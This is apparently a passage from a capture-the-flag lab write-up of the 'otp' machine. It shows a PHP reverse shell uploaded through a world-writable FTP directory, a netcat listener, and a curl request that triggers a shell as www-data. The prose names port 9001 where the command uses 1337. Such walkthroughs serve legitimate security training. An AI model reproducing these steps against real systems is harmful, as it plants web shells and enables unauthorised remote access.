 ```bash
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
So, I checked these two directories. On the argon directory, we have another folder “u9l04d_” that has full access.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||64352|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             404 Feb 05  2020 CHANGELOG.md
-rw-r--r--    1 0        0             384 Feb 05  2020 ISSUE_TEMPLATE.md
-rw-r--r--    1 0        0            1101 Feb 05  2020 LICENSE.md
-rw-r--r--    1 0        0           12363 Feb 05  2020 README.md
drwxr-xr-x    8 0        0            4096 Feb 05  2020 assets
-rw-r--r--    1 0        0             221 Nov 22 10:15 cr3d5_123.html
drwxr-xr-x    2 0        0            4096 Feb 05  2020 docs
-rw-r--r--    1 0        0             856 Feb 05  2020 gulpfile.js
-rw-r--r--    1 0        0           25537 Nov 22 10:18 index.html
-rw-r--r--    1 0        0            7554 Nov 22 10:38 login.php
-rw-r--r--    1 0        0            1280 Feb 05  2020 package.json
-rw-r--r--    1 0        0           19070 Nov 22 10:33 profile.html
-rw-r--r--    1 0        0           50995 Nov 22 10:36 tables.html
drwxrwxrwx    2 0        1001         4096 Nov 23 04:39 u9l04d_
226 Directory send OK.
ftp> cd u9l04d_
ftp> put rev.php
local: rev.php remote: rev.php
229 Entering Extended Passive Mode (|||19650|)
150 Ok to send data.
100% |************************************************|   247        1.24 MiB/s    00:00 ETA
226 Transfer complete.
247 bytes sent in 00:00 (170.10 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||25922|)
150 Here comes the directory listing.
-rw-------    1 1001     1001          247 Dec 22 17:55 rev.php
226 Directory send OK.
```
In this reverse shell, I have entered my IP address and port information. Thus, I will listen on port 9001 (which is the same on the reverse shell file).

```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.1.35] from (UNKNOWN) [192.168.1.34] 45562
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
www-data@otp:/var/www/otp/argon/u9l04d_$ 
```
```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# curl http://argon.otp.hmv/u9l04d_/rev.php
```
